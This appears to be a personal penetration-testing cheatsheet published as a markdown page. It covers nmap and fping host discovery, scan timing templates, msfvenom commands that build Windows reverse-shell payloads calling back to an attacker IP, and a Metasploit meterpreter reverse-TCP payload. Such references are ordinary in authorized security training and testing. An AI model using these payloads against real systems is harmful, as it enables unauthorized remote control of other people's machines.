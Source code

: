 +++
title = "CHEATSHEET"
lastmod = 2024-05-02T08:23:10+02:00
draft = false
+++

This is my **pentesting cheatsheet**.

<div style="text-align: center;">
  <img src="../img/hacking-614833260.gif" alt="Image description" style="display: block; margin: 0 auto;" />
</div>

# RECONNAISSANCE
## Fping
fping differs from ping in that you can specify any number of targets on the command line, or specify a file containing the lists of targets to ping. 
fping also supports sending a specified number of pings to a target, or looping indefinitely (as in ping ). Unlike ping, fping is meant to be used in scripts, so its output is designed to be easy to parse.

```bash
fping 10.4.23.227
```
## Nmap
### Ping Sweep
```bash
sudo nmap -sn  192.168.56.0/24
```
Scan mutlipe IP
```bash
sudo nmap -sn  192.168.56.227 10.4.23.228 
```
Scan range of IP
```bash
sudo nmap -sn 10.4.23.227-240
```
Scan file with IP
```bash
sudo nmap -sn -iL <filename>
```

### TCP SYN Ping
```bash
sudo nmap -sn -PS 10.4.23.227
```
To set range ports:
```bash
sudo nmap -sn -PS1-1000 10.4.23.227
```
To set multple ports:
```bash
sudo nmap -sn -PS80,3389,445 10.4.23.227
```
To perfom **prot scan** with this technique simple remove **-sn** flag
```bash
sudo nmap -PS80,3389,445 10.4.23.227
```

### TCP ACK Ping Scan

```bash
sudo nmap -sn -PA 10.4.23.227
```
```bash
sudo nmap -sn -PE 10.4.23.227 --send-ip
```

### Timing Templates
This is the table where the **-T0-4** flags are explained

| Timing templates and their effects                                        | T0         | T1         | T2       | T3       | T4       | T5         |
|--------------------------------------------------------------------------|------------|------------|----------|----------|----------|------------|
| **Name**                                                                 | Paranoid   | Sneaky     | Polite   | Normal   | Aggressive | Insane     |
| **min-rtt-timeout**                                                      | 100 ms     | 100 ms     | 100 ms   | 100 ms   | 100 ms   | 50 ms      |
| **max-rtt-timeout**                                                      | 5 minutes  | 15 seconds | 10 seconds | 10 seconds | 1250 ms | 300 ms     |
| **initial-rtt-timeout**                                                  | 5 minutes  | 15 seconds | 1 second | 1 second | 500 ms   | 250 ms     |
| **max-retries**                                                          | 10         | 10         | 10       | 10       | 6        | 2          |
| **Initial (and minimum) scan delay (--scan-delay)**                      | 5 minutes  | 15 seconds | 400 ms   | 0        | 0        | 0          |
| **Maximum TCP scan delay**                                               | 5 minutes  | 15,000     | 1 second | 1 second | 10 ms    | 5 ms       |
| **Maximum UDP scan delay**                                               | 5 minutes  | 15 seconds | 1 second | 1 second | 1 second | 1 second   |
| **host-timeout**                                                         | 0          | 0          | 0        | 0        | 0        | 15 minutes |
| **script-timeout**                                                       | 0          | 0          | 0        | 0        | 0        | 10 minutes |
| **min-parallelism**                                                      | Dynamic, not affected by timing templates |
| **max-parallelism**                                                      | 1          | 1          | 1        | Dynamic  | Dynamic  | Dynamic    |
| **min-hostgroup**                                                        | Dynamic, not affected by timing templates |
| **max-hostgroup**                                                        | Dynamic, not affected by timing templates |
| **min-rate**                                                             | No minimum rate limit                    |
| **max-rate**                                                             | No maximum rate limit                    |
| **defeat-rst-ratelimit**                                                 | Not enabled by default                   |


-----
-----
# Payloads
## Msfvenom
### Reverse Shell
Reverse shell in C format
```bash
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.131.154 LPORT=9500 -f c
```
Reverse shell in binary format
```bash
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.131.154 LPORT=443 -f raw -o code.bin
```
----
----
# C2 Framework
## Metasploit
While Metasploit is not a dedicated C2 framework, it can be used in conjunction with C2 capabilities for more advanced penetration testing and red teaming scenarios. Metasploit's **Meterpreter**, for instance, is a powerful payload that allows for interactive control over a compromised system, somewhat akin to C2 operations.

Use meterpreter for windows reverse shell
```bash
use payload/windows/x64/meterpreter_reverse_tcp
```

